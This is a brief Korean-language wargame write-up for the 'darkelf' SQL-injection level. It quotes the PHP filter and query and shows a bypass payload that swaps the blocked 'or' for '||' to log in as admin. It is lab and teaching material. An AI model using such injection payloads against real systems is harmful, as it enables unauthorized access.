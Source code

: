 <img width="195" alt="스크린샷 2020-01-16 오후 6 56 00" src="https://user-images.githubusercontent.com/54495632/72515179-cc2b6c80-3892-11ea-8598-97d5e11dc656.png">

6번 DARKELF

<img width="702" alt="스크린샷 2020-01-16 오후 6 56 21" src="https://user-images.githubusercontent.com/54495632/72515195-d3eb1100-3892-11ea-99be-732e58fccac1.png">

소스코드를 보면,

if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
-> or과 and 가 필터링 된다.

$query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
쿼리 문 자체는 그 전 문제와 차이가 없다.

if($result['id'] == 'admin') solve("darkelf");  -> id= admin 인 경우 문제가 solve된다.

or과 and 가 필터링됐는데 and는 이 문제에서 이용하지 않았고
or을 || 로 대체하여 사용했다.

$query = "select id from prob_darkelf where id='guest' and pw=''||id='admin'#
과 같이 쿼리를 주어 해결했다.

URL로 하면, ?pw='||id='admin# 에 해당된다.

<img width="697" alt="스크린샷 2020-01-16 오후 6 57 17" src="https://user-images.githubusercontent.com/54495632/72515434-3a702f00-3893-11ea-8673-406b1c629eb2.png">
